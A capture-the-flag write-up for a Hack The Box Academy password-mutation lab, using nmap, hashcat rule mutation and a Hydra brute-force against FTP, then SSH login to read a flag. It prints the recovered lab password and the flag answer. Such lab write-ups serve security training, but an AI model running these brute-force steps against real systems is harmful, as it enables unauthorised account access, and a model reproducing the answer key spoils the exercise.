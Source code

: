 ## HTB Academy: Password Mutation Module Solution

### Task
Create a mutated wordlist using the files in the ZIP file under "Resources." Use this wordlist to brute-force the password for the user "sam." Once successful, log in via SSH and submit the flag from `flag.txt`.

### Steps:

1. **Run Nmap Scan**
   Identify open ports and services on the target machine:
   ```bash
   nmap -sV -Pn <target_ip>
   ```
   Example output:
   ```
   PORT    STATE SERVICE     VERSION
   21/tcp  open  ftp         vsftpd 3.0.3
   22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
   139/tcp open  netbios-ssn Samba smbd 4.6.2
   445/tcp open  netbios-ssn Samba smbd 4.6.2
   ```

2. **Create Password List and Custom Rule**
   Using the files provided in the "Resources" section, create the `password.list` and `custom.rule`:
   ```bash
   sudo nano password.list
   sudo nano custom.rule
   ```

3. **Generate Mutated Wordlist**
   Use Hashcat to generate a mutated wordlist:
   ```bash
   hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
   ```

4. **Filter Mutated Wordlist**
   Edit the mutated wordlist to filter passwords with a length of 11 or more characters:
   ```bash
   sed -n '/^[[:alnum:][:punct:]]\{11,\}$/p' mut_password.list
   ```

5. **Brute Force with Hydra**
   Use Hydra to find the password for the user "sam" on the FTP service:
   ```bash
   hydra -l sam -P mut_password.list ftp://<target_ip> -t 48 -v
   ```
   Example successful output:
   ```
   [21][ftp] host: 10.129.7.103   login: sam   password: B@tm@n2022!
   ```

6. **Log in via SSH**
   Connect to the target machine using the found credentials:
   ```bash
   ssh sam@<target_ip>
   password: B@tm@n2022!
   ```

7. **Find and Retrieve the Flag**
   Search for the flag file and read its contents:
   ```bash
   find / -name "flag.txt" 2>/dev/null
   ```
   Example:
   ```bash
   /home/sam/smb/flag.txt
   cat /home/sam/smb/flag.txt
   ```
   The flag is:
   ```
   HTB{P455_Mu7ations}
   ```

### Conclusion
This task demonstrated how to use password mutation rules to generate a custom wordlist and perform a brute-force attack to retrieve the flag. 
## Happy Hacking!



